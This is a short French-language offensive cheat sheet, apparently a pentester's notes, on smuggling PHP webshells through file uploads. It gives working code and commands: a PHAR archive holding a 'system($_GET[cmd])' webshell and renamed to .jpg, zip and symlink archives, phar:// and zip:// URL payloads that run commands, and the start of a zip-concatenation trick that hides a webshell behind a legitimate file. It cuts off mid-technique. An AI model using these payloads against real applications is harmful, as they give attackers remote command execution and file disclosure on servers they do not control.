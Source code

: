 
### PHAR

shell.php

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

compiler le fichier au format phar et le renommer en jpg

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```url
phar://./path/to/shell.jpg%2fshell.txt&cmd=id
```


## ZIP

### Wrapper Zip 

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```url
zip://./path/to/shell.jpg%23shell.php&cmd=id
```

### ZIP Archive contenant un lien symbolic

```bash
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```

### Zip File Concaténation

https://cybersecuritynews.com/hackers-employ-zip-file-concatenation/

créer webshell.php

```
echo '<?php system($_GET["cmd"]); ?>' > webshell.php
```

utiliser un fichier légitime attendu par l'application (pdf par exemple)

zipper le fichier légitime.
